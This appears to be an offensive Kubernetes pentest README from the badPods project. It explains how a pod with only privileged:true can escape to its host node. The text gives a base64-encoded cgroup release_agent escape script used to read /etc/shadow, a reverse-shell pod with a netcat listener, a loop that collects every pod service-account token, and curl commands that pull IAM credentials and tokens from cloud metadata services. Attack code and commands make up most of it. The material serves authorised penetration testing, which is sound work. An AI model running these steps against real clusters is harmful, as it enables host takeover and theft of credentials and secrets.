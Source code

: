 ## You can create a pod with only privileged: true

If you only have `privileged=true`, you can still get RCE on the host, and ultimately cluster-admin, but the path is more tedious. The exploit below escapes the container and allows you to run one command at a time. From there, you can launch a reverse shell.  

# Pod Creation

### Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-only
  labels: 
    app: priv-only
spec:
  containers:
  - name: priv-only
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    securityContext:
      privileged: true
  # Force scheduling of your pod on a master mode by uncommenting the next line and changing the nodeName to that of a master node
  #nodeName: k8s-master
  ```
[pod-priv-only.yaml](pod-priv-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-priv-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/priv-only/pod-priv-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-priv-only -- bash
```
#### Create undock script that will automate the container escape POC
```bash
echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > undock.sh 
```
Reference(s): 
* https://twitter.com/_fel1x/status/1151487051986087936
* https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/ 

#### Then use the script to run whatever commands you want on the host: 
```bash
sh undock.sh "cat /etc/shadow"
```

### Or, create a reverse shell pod
[pod-priv-only-revshell.yaml](pod-priv-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/priv-and-hostpid/pod-priv-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
~ chroot /host
```

# Post exploitation

You now have root access to the node. Here are some next steps: 

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

```bash
# This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token


# For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```

If cloud hosted, look at the metadata service and checkout user-data, and the IAM permissions. If an IAM role has been assigned to the node, use that to see wht access you hav in the cloud environment. 

```bash
curl http://169.254.169.254/latest/user-data 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/insce-accounts/default/token
```

Some other ideas:
* Add your public key to node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access other nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the pentration test.



### Post exploitation
```bash
# Create undock script that will automate the container escape POC
echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > undock.sh 
# Then use the script to run whatever commands you want on the host: 
sh undock.sh "cat /etc/shadow"
```

Reference(s): 
* https://twitter.com/_fel1x/status/1151487051986087936
* https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/ 


